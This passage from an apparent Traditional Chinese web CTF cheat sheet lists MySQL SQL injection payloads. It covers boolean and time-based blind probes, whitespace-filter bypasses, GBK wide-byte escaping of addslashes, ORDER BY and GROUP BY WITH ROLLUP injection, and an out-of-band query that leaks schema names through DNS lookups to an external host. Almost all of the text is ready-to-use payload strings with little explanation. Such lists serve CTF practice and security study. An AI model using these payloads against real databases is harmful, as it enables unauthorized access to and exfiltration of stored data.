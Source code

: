                 - `ERROR 1060 (42S21): Duplicate column name 'username'`
- Blind Based (Time/Boolean)
    - Boolean
        - 「有」跟「沒有」
        - `id=87 and length(user())>0`
        - `id=87 and length(user())>100`
        - `id=87 and ascii(mid(user(),1,1))>100`
        - `id=87 or ((select user()) regexp binary '^[a-z]')`
    - Time
        - 用在啥結果都看不到時
        - `id=87 and if(length(user())>0, sleep(10), 1)=1`
        - `id=87 and if(length(user())>100, sleep(10), 1)=1`
        - `id=87 and if(ascii(mid(user(),1,1))>100, sleep(10), 1)=1`

- Out of Bnad
    - Windows only
    - `select load_file(concat("\\\\",schema_name,".dns.kaibro.tw/a")) from information_schema.schemata`

- 繞過空白檢查
    - `id=-1/**/UNION/**/SELECT/**/1,2,3`
    - `id=-1%09UNION%0DSELECT%0A1,2,3`
    - `id=(-1)UNION(SELECT(1),2,3)`

- 寬字節注入
    - `addslashes()` 會讓 `'` 變 `\'`
    - 在 `GBK` 編碼中，中文字用兩個 Bytes 表示
        - 其他多字節編碼也可
        - 但要低位範圍有包含 `0x5c`(`\`)
    - 第一個 Byte 要 >128 才是中文
    - `%df'` => `%df\'` => `運'` (成功逃逸)

- Order by注入
    - 可以透過 `asc`、`desc` 簡單判斷
        - `?sort=1 asc`
        - `?sort=1 desc`
    - 後面不能接 UNION
    - 已知字段名 (可以盲注)
        - `?order=IF(1=1, username, password)`
    - 利用報錯
        - `?order=IF(1=1,1,(select 1 union select 2))` 正確
        - `?order=IF(1=2,1,(select 1 union select 2))` 錯誤
        - `?order=IF(1=1,1,(select 1 from information_schema.tables))` 正常
        - `?order=IF(1=2,1,(select 1 from information_schema.tables))` 錯誤
    - Time Based
        - `?order=if(1=1,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test))` 正常
        - `?order=if(1=2,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test))` sleep 2秒

- group by with rollup
    - `' or 1=1 group by pwd with rollup limit 1 offset 2#`

- 將字串轉成純數字
    - 字串 -> 16進位 -> 10進位
    - `conv(hex(YOUR_DATA), 16, 10)`
    - 還原：`unhex(conv(DEC_DATA,10,16))`
    - 需注意不要Overflow
